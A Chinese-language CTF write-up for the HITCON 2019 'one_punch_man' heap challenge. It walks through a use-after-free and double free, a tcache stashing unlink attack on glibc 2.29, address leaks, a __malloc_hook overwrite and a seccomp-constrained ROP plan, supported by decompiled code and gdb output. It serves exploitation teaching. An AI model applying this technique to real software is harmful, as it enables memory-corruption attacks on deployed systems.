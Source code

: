 # 201 Hitcon-CTF one_punch_man

漏洞类型： `UAF` `Double Free`

利用方式： `Tcache Stashing Unlink Attack`

flag： `flag{this_is_a_test_flag}`

## Writeup

### 基本信息

开启了常见保护，题目环境为 glibc 2.29 ，使用 seccomp 开启了沙箱保护，只有白名单上的系统调用可以使用。

```bash
╭─wz@wz-virtual-machine ~/Desktop/CTF/xz_files/hitcon2019_one_punch_man ‹master› 
╰─$ checksec ./one_punch
[*] '/home/wz/Desktop/CTF/xz_files/hitcon2019_one_punch_man/one_punch'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
╭─wz@wz-virtual-machine ~/Desktop/CTF/xz_files/hitcon2019_one_punch_man ‹master*› 
╰─$ seccomp-tools dump ./one_punch
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x0000000f  if (A != rt_sigreturn) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0014: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0016
 0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0016: 0x15 0x00 0x01 0x0000000c  if (A != brk) goto 0018
 0017: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0018: 0x15 0x00 0x01 0x00000009  if (A != mmap) goto 0020
 0019: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0020: 0x15 0x00 0x01 0x0000000a  if (A != mprotect) goto 0022
 0021: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0022: 0x15 0x00 0x01 0x00000003  if (A != close) goto 0024
 0023: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0024: 0x06 0x00 0x00 0x00000000  return KILL

```

### 基本功能

Add 函数可以分配 `[0x80,0x400]` 大小的堆块，分配的函数为 `calloc` ，输入数据首先存储到栈上，之后再使用 `strncpy` 拷贝到 `bss` 上的数组里。

Delete 函数 `free` 堆块之后未清空，造成 `double free` 和 `UAF`

```c
void __fastcall Delete(__int64 a1, __int64 a2)
{
  unsigned int v2; // [rsp+Ch] [rbp-4h]

  MyPuts("idx: ");
  v2 = read_int();
  if ( v2 > 2 )
    error("invalid", a2);
  free(*((void **)&unk_4040 + 2 * v2));
}
```
后门函数可以调用 `malloc` 分配 `0x217` 大小的堆块，但是要要满足 `*(_BYTE *)(qword_4030 + 0x20) > 6` ，我们在 `main` 函数里可以看到这里被初始化为 `heap_base+0x10` ，对于 glibc 2.29，这个位置对应存储的是 `tcache_perthread_struct` 的 `0x220` 大小的 `tcache_bin` 的数量，正常来说，如果我们想调用后门的功能，要让这个 `count` 为 7 ，然而这也就意味着 `0x217` 再分配和释放都同 `glibc 2.23` 一样，我们无法通过 `UAF` 改 chunk 的 `fd` 来达到任意地址写的目的，因此我们要通过别的方式修改这个值。
```c
__int64 __fastcall Magic(__int64 a1, __int64 a2)
{
  void *buf; // [rsp+8h] [rbp-8h]

  if ( *(_BYTE *)(qword_4030 + 0x20) <= 6 )
    error("gg", a2);
  buf = malloc(0x217uLL);
  if ( !buf )
    error("err", a2);
  if ( read(0, buf, 0x217uLL) <= 0 )
    error("io", buf);
  puts("Serious Punch!!!");
  puts(&unk_2128);
  return puts(buf);
}
```
Edit 和 Show 函数分别可以对堆块内容进行编辑和输出。

### 利用思路

由于 glibc 2.29 中新增了对于 `unsorted bin` 链表完整性检查，这使得 `unsorted bin attack` 完全失效，我们的目标是往一个地址中写入 `large value` ，这种情况下就可以选择 `tcache stashing unlink attack`。

首先我们可以通过UAF来泄露 `heap` 和 `libc` 地址。具体方式是分配并释放多个chunk使其进入 `tcache` ，通过 `Show` 函数可以输出 `tcache bin` 的 `fd` 值来泄露堆地址。释放某个 `small bin size` 范围内的chunk七个，在第八次释放时会先把释放的堆块放入 `unsorted bin` 。通过 `Show` 函数可以泄露出 libc 地址。

我们首先通过 `UAF` 将 `__malloc_hook` 链入 `tcache` 备用。然后分配并释放六次 `0x100` 大小的chunk进入 `tcache` 。通过 `unsorted bin` 切割得到 `last remainer` 的方式得到两个大小为 `0x100` 的chunk。再分配一个超过 0x100 的块使其进入 `small bin` 。按照释放顺序我们称之为 bin1 和 bin2 。修改 `bin2->bk` 为 `(heap_base+0x2f)-0x10` ，调用 `calloc(0xf0)` 触发 `small bin` 放入 `tcache` 的处理逻辑，由于 `tcache` 中有 6 个块，因此循环处理只会进行一次，这样也避免了 fake_chunk 因 bk 处无可写地址作为下一个块进行 unlink 时 `bck->fd=bin` 带来的内存访问错误。最终改掉 `heap_base+0x30` 的值绕过检查。

### 利用步骤

下面在调用 calloc 前下断点，可以看到此时 `tcache[0x100]` 有 6 个堆块，small bin 的分配顺序为 `0x000055555555c460->0x55555555cc80->0x000055555555901f` ，在 `calloc(0xf0)` 调用后， `0x000055555555c460` 会被返回给用户， `0x55555555cc80` 被链入tcache，而由于没有多余位置，跳出循环， `0x000055555555901f` 不做处理。

```bash
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x55555555d9d0 (size : 0x1c630) 
       last_remainder: 0x55555555cc80 (size : 0x100) 
            unsortbin: 0x0
(0x030)  smallbin[ 1]: 0x555555559ba0
(0x100)  smallbin[14]: 0x55555555cc80 (doubly linked list corruption 0x55555555cc80 != 0x100 and 0x55555555cc80 is broken)          
(0x100)   tcache_entry[14](6): 0x55555555a3f0 --> 0x55555555a2f0 --> 0x55555555a1f0 --> 0x55555555a0f0 --> 0x555555559ff0 --> 0x555555559ab0
(0x130)   tcache_entry[17](7): 0x555555559980 --> 0x555555559850 --> 0x555555559720 --> 0x5555555595f0 --> 0x5555555594c0 --> 0x555555559390 --> 0x555555559260
(0x220)   tcache_entry[32](1): 0x55555555d7c0 --> 0x7ffff7fb4c30
(0x410)   tcache_entry[63](7): 0x55555555bd50 --> 0x55555555b940 --> 0x55555555b530 --> 0x55555555b120 --> 0x55555555ad10 --> 0x55555555a900 --> 0x55555555a4f0
gdb-peda$ x/4gx 0x55555555cc80
0x55555555cc80: 0x0000000000000000      0x0000000000000101
0x55555555cc90: 0x000055555555c460      0x000055555555901f
gdb-peda$ x/4gx 0x000055555555c460
0x55555555c460: 0x0000000000000000      0x0000000000000101
0x55555555c470: 0x00007ffff7fb4d90      0x000055555555cc80
gdb-peda$ x/4gx 0x00007ffff7fb4d90
0x7ffff7fb4d90 <main_arena+336>:        0x00007ffff7fb4d80      0x00007ffff7fb4d80                                                  
0x7ffff7fb4da0 <main_arena+352>:        0x000055555555cc80      0x000055555555c460
```
calloc 分配完成之后的结果和我们预期一致， `0x000055555555901f` 作为 `fake_chunk` 其 `fd` 也被改写为了 `libc` 地址
```bash
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x55555555d9d0 (size : 0x1c630) 
       last_remainder: 0x55555555cc80 (size : 0x100) 
            unsortbin: 0x0
(0x030)  smallbin[ 1]: 0x555555559ba0
(0x100)  smallbin[14]: 0x55555555cc80 (doubly linked list corruption 0x55555555cc80 != 0x700 and 0x55555555cc80 is broken)          
(0x100)   tcache_entry[14](7): 0x55555555cc90 --> 0x55555555a3f0 --> 0x55555555a2f0 --> 0x55555555a1f0 --> 0x55555555a0f0 --> 0x555555559ff0 --> 0x555555559ab0
(0x130)   tcache_entry[17](7): 0x555555559980 --> 0x555555559850 --> 0x555555559720 --> 0x5555555595f0 --> 0x5555555594c0 --> 0x555555559390 --> 0x555555559260
(0x210)   tcache_entry[31](144): 0
(0x220)   tcache_entry[32](77): 0x55555555d7c0 --> 0x7ffff7fb4c30
(0x230)   tcache_entry[33](251): 0
(0x240)   tcache_entry[34](247): 0
(0x250)   tcache_entry[35](255): 0
(0x260)   tcache_entry[36](127): 0
(0x410)   tcache_entry[63](7): 0x55555555bd50 --> 0x55555555b940 --> 0x55555555b530 --> 0x55555555b120 --> 0x55555555ad10 --> 0x55555555a900 --> 0x55555555a4f0
gdb-peda$ x/4gx 0x000055555555901f+0x10
0x55555555902f: 0x00007ffff7fb4d90      0x0000000000000000
0x55555555903f: 0x0000000000000000      0x0000000000000000
```
由于沙箱保护，我们无法执行 `execve` 函数调用，只能通过 `open/read/write` 来读取 flag 。我们选择通过调用后门函数修改 `__malloc_hook` 为 `gadget(mov eax, esi ; add rsp, 0x48 ; ret)` ，以便 add 的时候将 `rsp` 改到可控的输入区域调用 `rop chains` 来 `orw` 读取 `flag` 。